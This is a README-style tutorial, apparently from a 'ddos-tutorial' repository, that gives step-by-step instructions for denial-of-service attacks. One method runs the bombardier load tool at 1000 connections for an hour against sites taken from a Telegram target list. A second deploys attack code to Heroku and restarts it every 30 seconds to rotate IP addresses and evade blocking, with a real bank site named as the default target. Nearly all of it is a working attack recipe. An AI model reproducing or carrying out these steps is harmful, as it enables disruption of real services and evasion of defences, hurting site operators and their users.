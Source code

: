 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Install heroku cli: https://devcenter.heroku.com/articles/heroku-cli#install-the-heroku-cli
5. Edit `reload.sh` file and insert your app name there.
6. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
6. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
7. In order to change destination, please change in the code (`index.js` file) `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
If you want to see logs from your app: 
```
$ heroku logs -t -a <<your-app-name>>
